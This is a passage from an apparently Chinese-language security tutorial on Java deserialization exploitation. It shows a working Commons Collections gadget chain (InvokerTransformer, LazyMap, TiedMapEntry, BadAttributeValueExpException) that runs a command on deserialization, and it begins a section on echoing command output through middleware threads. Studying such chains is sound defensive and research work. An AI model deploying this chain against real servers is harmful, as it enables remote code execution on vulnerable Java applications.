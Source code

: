 ```java
                new InvokerTransformer("loadClass", new Class[]{String.class}, new Object[]{"ProcessExec"}),
                // 获取ProcessExec的构造方法
                new InvokerTransformer("getConstructor", new Class[]{Class[].class}, new Object[]{new Class[]{String.class}}),
                // 实例化ProcessExec
                new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new String[]{"ipconfig"}})

        };
        Transformer chain = new ChainedTransformer(transformers);
        Map map = new HashMap();
        Map lazyMap = LazyMap.decorate(map, chain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "");
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(entry);
        Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, entry);

        serialize(badAttributeValueExpException);
        deserialize();
    }

    public static void serialize(Object obj) {
        try {
            ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("test.ser"));
            os.writeObject(obj);
            os.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void deserialize() {
        try {
            ObjectInputStream is = new ObjectInputStream(new FileInputStream("test.ser"));
            is.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

这个例子大多出现在jboss和fastjson中，灵活使用。

## 中间件回显
中间件而言多数重写了thread类，在thread中保存了req和resp，可以通过获取当前线程，在resp中写入回显结果

这种方法前几天在先知上有很多针对tomcat无回显的文章，为各位师傅的文章画一下时间线：
